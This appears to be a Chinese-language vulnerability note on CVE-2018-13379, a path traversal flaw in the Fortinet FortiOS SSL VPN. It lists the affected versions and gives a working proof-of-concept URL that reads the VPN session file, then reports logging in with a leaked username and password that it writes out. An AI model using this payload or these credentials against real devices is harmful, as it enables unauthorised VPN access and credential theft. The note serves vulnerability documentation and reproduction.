

# （CVE-2018-13379）Fortinet FortiOS 路径遍历漏洞

> 原文：[http://book.iwonder.run/0day/Fortinet FortiOS/CVE-2018-13379.html](http://book.iwonder.run/0day/Fortinet FortiOS/CVE-2018-13379.html)

## 一、漏洞简介

Fortinet FortiOS 路径遍历漏洞（CNNVD-201905-1026、CVE-2018-13379） 漏洞源于该系统未能正确地过滤资源或文件路径中的特殊元素，导致攻击者可以利用该漏洞访问受限目录以外的位置。Fortinet FortiOS 5.6.3 版本至 5.6.7 版本、6.0.0 版本至 6.0.4 版本中的 SSL VPN 受此漏洞影响。

## 二、漏洞影响

Fortinet FortiOS 5.6.3 版本至 5.6.7 版本、

Fortinet FortiOS 6.0.0 版本至 6.0.4 版本

中的 SSL VPN 受此漏洞影响。

## 三、复现过程

POC：`http://www.0-sec.org:4443/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession`

利用泄露的账户 herschel/vvpn123 成功登陆。

### 检测工具

> [https://github.com/ianxtianxt/CVE-2018-13379](https://github.com/ianxtianxt/CVE-2018-13379)

## 参考链接

> [https://blog.csdn.net/limb0/article/details/102890683](https://blog.csdn.net/limb0/article/details/102890683)

